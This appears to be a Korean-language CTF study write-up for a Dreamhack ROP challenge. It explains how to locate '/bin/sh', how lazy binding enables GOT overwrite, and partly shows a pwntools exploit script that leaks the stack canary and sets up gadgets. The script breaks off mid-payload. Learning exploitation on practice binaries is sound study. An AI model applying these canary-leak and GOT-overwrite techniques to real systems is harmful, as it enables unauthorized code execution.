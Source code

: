 ## 3. "/bin/sh"

해당 바이너리의 데이터 영역에는 `/bin/sh` 문자열을 사용한 적이 없으므로 존재하지 않는다. 따라서, 이 문자열을 임의의 버퍼에 직접 주입해서 사용하거나 다른 파일에 포함된 것을 사용해야 한다.

후자의 경우를 택할 때 가장 많이 사용되는 파일이 `libc.so.6`에 포함된 `/bin/sh` 문자열이다. 이 문자열의 주소 또한 `system` 함수를 구할 때 처럼 `offset`을 이용하여 구할 수 있다.

<img width="735" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/2ae1e208-565e-4fb1-904d-d925cb5d036a">

우리는 해당 문제에서 `buf`에 직접 `/bin/sh` 문자열을 주입할 수 있기 때문에 전자의 방법을 사용하겠다.

## 4. GOT Overwrite

`system` 함수와 "/bin/sh" 문자열의 주소를 알고 있으므로, 지난 코스에서처럼 `pop rdi; ret` 가젯을 활용하여 `system(“/bin/sh”)`를 호출할 수 있다. 

그러나 `system` 함수의 주소를 알았을 때는 이미 ROP 페이로드가 전송된 이후이므로, 알아낸 `system` 함수의 주소를 페이로드에 사용하려면 `main`함수로 돌아가서 다시 버퍼 오버플로우를 일으켜야 한다. 이러한 공격 패턴을 `ret2main`이라고 부르는데, 이 코스에서는 GOT Overwrite 기법을 통해 한 번에 셸을 획득할 것이다.

**Background: Library - Dynamic Link VS. Static Link** 코스에서 ***Lazy binding***에 대해 배운 내용을 정리해보면 다음과 같다.

1. 호출할 라이브러리 함수의 주소를 프로세스에 매핑된 라이브러리에서 찾는다.

2. 찾은 주소를 GOT에 적고, 이를 호출한다.

3. **해당 함수를 다시 호출할 경우, GOT에 적힌 주소를 그대로 참조한다.**

위 과정에서 GOT Overwrite에 이용되는 부분은 3번이다. GOT에 적힌 주소를 검증하지 않고 참조하므로 GOT에 적힌 주소를 변조할 수 있다면, 해당 함수가 재호출될 때 공격자가 원하는 코드가 실행되게 할 수 있다.

알아낸 `system` 함수의 주소를 어떤 함수의 GOT에 쓰고, 그 함수를 **재호출하도록** ROP 체인을 구성하면 될 것이다.

## 익스플로잇 코드 구성

```
from pwn import *

context.arch = "amd64"
p = remote('host3.dreamhack.games', 15132)

e = ELF('./rop')
libc = ELF('./libc.so.6')

# Leak canary

payload = b'a'*0x38
p.sendafter(b'Buf: ', payload+b'a')
p.recvuntil(payload + b'a')
canary = b'\x00' + p.recvn(7)

# Exploit

read_plt = e.plt['read']       # read_plt = e.symbols['read']와 같음
read_got = e.got['read']       # 여기서는 got 주소만 알 수 있고 got 주소 안의 내용은 알 수 없음
write_plt = e.plt['write']
read_system_offset = libc.symbols['read'] - libc.symbols['system'] # symbols는 offset과 같음

pop_rdi = 0x0000000000400853
pop_rsi_r15 = 0x0000000000400851
ret = 0x0000000000400854

payload += canary + b'a'*0x8
payload += p64(ret)            # movaps 때문에 stack을 0x10 단위로 맞추기 위해 삽입

# write(1, read_got, ...)
```